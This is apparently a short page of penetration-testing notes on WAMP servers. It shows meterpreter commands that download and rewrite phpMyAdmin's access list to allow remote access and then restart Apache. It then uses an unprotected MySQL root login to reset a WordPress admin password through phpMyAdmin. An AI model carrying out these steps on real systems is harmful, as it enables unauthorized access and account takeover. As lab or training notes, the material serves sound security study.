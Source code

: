 # WAMP

- See also [MySQL](./MySQL.md).

- Modify phpmyadmin.conf to allow remote access.
```
meterpreter > cd C:\\wamp\\alias\\
meterpreter > dir
meterpreter > download C:\\wamp\\alias\\phpmyadmin.conf

Edit ACL:

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Order Deny,Allow --> Delete
        Deny from all --> Delete
        Allow from 127.0.0.1 --> Allow from all
</Directory>

meterpreter > upload ~/phpmyadmin.conf
meterpreter > cat phpmyadmin.conf
meterpreter > shell

net stop wampapache
net start wampapache
```

- There is no such thing as a phpMyAdmin user. phpMyAdmin is a front-end for MySQL, so we're talking about MySQL users.
```
http://<ip>:8585/phpmyadmin

Your configuration file contains settings (root with no password) that correspond to the default MySQL privileged account. Your MySQL server is running with this default, is open to intrusion, and you really should fix this security hole by setting a password for user 'root'.
```

- Change WordPress admin password from phpMyAdmin.
```
Click on wordpress.
Click on wp-users.
Edit admin user.
Set user_pass to MD5 (function) and password123 (Value).

Go back to http://<ip>:8585/ and click on wordpress under Your Projects.
Log in with the new password.
```
